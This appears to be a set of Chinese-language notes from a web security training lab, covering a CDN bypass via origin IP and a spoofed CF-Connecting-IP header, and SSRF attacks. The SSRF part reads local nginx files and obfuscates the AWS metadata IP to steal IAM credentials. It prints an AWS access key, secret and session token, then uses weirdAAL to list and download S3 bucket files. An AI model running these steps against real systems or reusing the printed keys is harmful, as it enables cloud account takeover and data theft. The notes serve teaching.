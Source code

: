 # 8/2 morning WEB security

## CDN繞過

題目 [https://realme.0x61697333.cf](http://realme.0x61697333.cf)

要繞過CDN 先用[virustotal](https://www.virustotal.com/zh-tw/)掃一下domain

結果:
```
2018-08-01 104.28.10.231
2018-08-01 104.28.11.231
2018-07-31 52.194.38.175
```
前兩個是CDN

52.194.38.175 是server位置

在/etc/hosts新增

`52.194.38.175  realme.0x61697333.cf`

(讓請求不要走CDN)

> curl -H "CF-Connecting-IP: 127.0.0.1" http://realme.0x61697333.cf/

## SSRF

## 01
[SSRF 01](http://ssrf01.0x61697333.cf/index.php)

提示是ubuntu, nginx 

先看設定檔預設路徑

丟輸入匡

> file:///etc/nginx/sites-enabled/default

> file:///meow/ais3/index.php

## 10
[SSRF 10](http://ssrf01.0x61697333.cf/index.php)

ip有基本檢查 要繞一下

在輸入匡丟:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials

噴:`MagicAIS3`

輸入匡:
> http://169.254.169.0xfe/latest/meta-data/iam/security-credentials/MagicAIS3

把資料加到[weirdAAL](https://github.com/carnal0wnage/weirdAAL)設定檔

```
[default]
aws_access_key_id = ASIAU2Z4MLXCGNVN256B
aws_secret_access_key = dGtFxTt/kdPdS0k6UMoaxMO9VMjw0Pk4CQLxnM/M
aws_session_token = FQoGZXIvYXdzEC4aDFOpSAIZQ01cgHHwrCLBAx8DBVXgbglo6WvkIToFh71yqrXXN56Hh7dyMIzGzfbyZ0c3NO6f/RVWVlUXM3zSIEdLuP    PEVgfuy0KL85cHV1hfP62v5kFW4SIhwaGyJjhEh5nJsV8AUlpgUfeZljPexUA5F0viz1p0lg7bPTR9CQZYSZsNP3PLkudYXTGG/Lf4u40o2oElwQsbG1R6Zf2A7nxb    3xj63u2g4fhJV+pqBkhLLSOOrEiQ2Y7B+7yKSWtf0fSWZtwZgbqsG8ClzflMWejzu5RbcDXHsoHiILgE9tZoWqRU6zKxKOrczk03LAbIuVDfpj8oCjIDq0uU9/BFMh    qTUKXjzNslGeiYgsqVyhwvKexfLYpjHWaGs8wuYFrI/R2NKn08oN6qIph/bj2jeEISdxjih1oHmDDLMOlUEhHewLVdqDM9zpJ9pjjMZWOepsOoAbwpDCu8mMfHvS7N    q2zhsmQ1dueVxP48Ps1sQKhDa83sx9esMxfrYvYnXY34h1csxU4kCdgoGcqR/soKTOHXnvcj9i5ZZ0Gw+JUtL7yezt0l6UVhdZtu5UBbhn848LrkhFlXo4sqyHdxF4    y+kkka26WsmHBqOny0sc29SJAhKK2KitsF
```

terminal:

> python3 weirdAAL.py -m s3_list_buckets -t yoo

> python3 weirdAAL.py -m s3_list_bucket_contents -a "ais3-flag-box" -t yolo

> python3 weirdAAL.py -m s3_download_file -a 'ais3-flag-box','ais3-flag.txt' -t yolo
